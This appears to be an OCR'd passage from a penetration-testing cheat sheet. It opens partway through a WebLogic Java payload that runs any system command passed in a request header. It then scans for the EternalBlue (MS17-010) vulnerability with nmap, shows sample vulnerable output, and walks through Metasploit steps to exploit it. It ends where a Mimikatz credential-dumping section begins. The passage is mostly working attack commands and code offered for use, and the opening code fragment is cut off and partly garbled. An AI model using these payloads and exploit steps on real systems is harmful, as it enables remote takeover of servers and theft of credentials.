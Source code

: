     weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);
    res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));
    res.getServletOutputStream().flush();
    res.getWriter().write("");
}executeThread.interrupt();
");
Change cmd in the request header with any system command(Win/Linux)
Payload could be turned into a curl command.
Scanning for EternalBlue ms17-010
bash$ nmap -p445 --script smb-vuln-ms17-010 <target>/24
If the target is vulnrable the output is as following

Script Output
Host script results:

| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
Exploiting Eternal Blue - Metasploit Module (Windows 7 x64 only )
Note :
The default Module supported by Metasploit is exploiting only windows 7 x64 bit Otherwise the target will be crashed .
msf > use exploit/windows/smb/ms17_010_eternalblue
      msf exploit(ms17_010_eternalblue) > show targets
            ...targets...
      msf exploit(ms17_010_eternalblue) > set TARGET <target-id>
      msf exploit(ms17_010_eternalblue) > show options
            ...show and set options...
      msf exploit(ms17_010_eternalblue) > exploit
Mimikatz - Metasploit
After obtaining a meterpreter shell, we need to ensure that our session is running with SYSTEM level privileges for Mimikatz to function properly.
